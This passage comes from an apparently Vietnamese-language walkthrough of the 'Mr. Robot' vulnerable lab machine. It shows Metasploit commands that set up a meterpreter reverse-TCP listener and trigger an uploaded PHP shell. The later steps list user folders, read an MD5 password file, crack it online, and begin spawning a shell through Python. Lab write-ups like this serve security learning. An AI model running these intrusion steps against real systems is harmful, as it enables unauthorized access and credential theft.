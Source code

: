 <span class="hljs-keyword">set</span> payload <span class="hljs-comment">php</span>/meterpreter/<span class="hljs-comment">reverse_tcp</span>
<span class="hljs-keyword">set</span> <span class="hljs-comment">LHOST 192.168.226.155</span>
<span class="hljs-keyword">set</span> <span class="hljs-comment">LPORT 4444</span>
exploit <span class="hljs-comment">-j -z</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-15.png#full" alt="mr-robot-15.png"></p>
<p>Chúng ta tiến hành chạy shell bằng đường dẫn như sau: <strong><a href="http://192.168.226.158/wp-content/uploads/shell.php">http://192.168.226.158/wp-content/uploads/shell.php</a></strong>. Chúng ta đã thành công trong việc thiết lập kết nối đến máy chủ. Chúng ta gõ câu lệnh dưới đây để tiến hành tương tác với máy chủ:</p>
<pre><code class="lang-bash">sessions -<span class="hljs-selector-tag">i</span> <span class="hljs-number">1</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-16.png#full" alt="mr-robot-16.png"></p>
<p>Tiến hành kiểm tra thông tin hệ điều hành máy chủ bằng lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">sysinfo</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-17.png#full" alt="mr-robot-17.png"></p>
<p>Máy chủ sử dụng hệ điều hành <strong>Linux</strong>, tức là chúng ta cần phải tìm xem trong các thư mục của hệ điều hành này thì nơi nào sẽ chứa chìa khóa cần tìm.</p>
<p>Đầu tiên, chúng ta cần kiểm tra được thư mục <strong>home</strong> có người dùng nào đang sử dụng. Chúng ta gõ các lệnh sau để kiểm tra:</p>
<pre><code class="lang-bash"><span class="hljs-keyword">cd</span> /home
<span class="hljs-keyword">ls</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-18.png#full" alt="mr-robot-18.png"></p>
<p>Chúng ta phát hiện user đang sử dụng có tên là <strong>robot</strong>, chúng ta tiếp tục vào thư mục robot và sẽ thấy điều bất ngờ xảy ra:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-19.png#full" alt="mr-robot-19.png"></p>
<p>Chúng ta đã tìm ra được chìa khóa thứ 2, nhưng chúng ta không có cách nào để mở được nó. Chúng ta để ý rằng có sự xuất hiện của file <strong>password.raw-md5</strong>. File mật khẩu này đã bị mã hóa bằng mã <strong>MD5</strong>, chúng ta sẽ kiểm tra file này và tiến hành giải mã nó.</p>
<p>Kiểm tra nội dung file bằng lệnh dưới đây:</p>
<pre><code class="lang-bash"><span class="hljs-selector-tag">cat</span> <span class="hljs-selector-tag">password</span><span class="hljs-selector-class">.raw-md5</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-20.png#full" alt="mr-robot-20.png"></p>
<p>Dán đoạn mã này lên website <a href="https://www.md5online.org/">https://www.md5online.org/</a> và ta sẽ được kết quả như sau:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-21.png#full" alt="mr-robot-21.png"></p>
<p>Chúng ta đã có mật khẩu, việc cuối cùng là đăng nhập máy chủ quyền cao nhất - <strong>root</strong>. Chúng ta gõ câu lệnh sau trong Metasploit:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">shell</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-22.png#full" alt="mr-robot-22.png"></p>
<p>Câu lệnh này sẽ cho phép tạo tiến trình thực thi các lệnh trong máy chủ. Nhưng có 1 vấn đề khá nan giải, đó là bạn không thể đăng nhập đơn giản chỉ với câu lệnh <strong>sudo -i</strong> do chúng ta đang thực hiện kết nối thông qua socket.</p>
<p>Để thực hiện việc này, chúng ta cần phải kiểm tra xem máy chủ này có sử dụng <strong>Python</strong> hay không với câu lệnh sau:</p>
<pre><code class="lang-python"><span class="hljs-keyword">python</span> --<span class="hljs-keyword">version</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-23.png#full" alt="mr-robot-23.png"></p>
<p>Khá may mắn khi máy chủ đã tích hợp sẵn Python. Việc bây giờ của chúng ta là viết một đoạn script cho phép thực hiện các câu lệnh <strong>bash</strong> thông qua các thư viện có sẵn trong Python. Đoạn script sẽ có dạng như thế này:</p>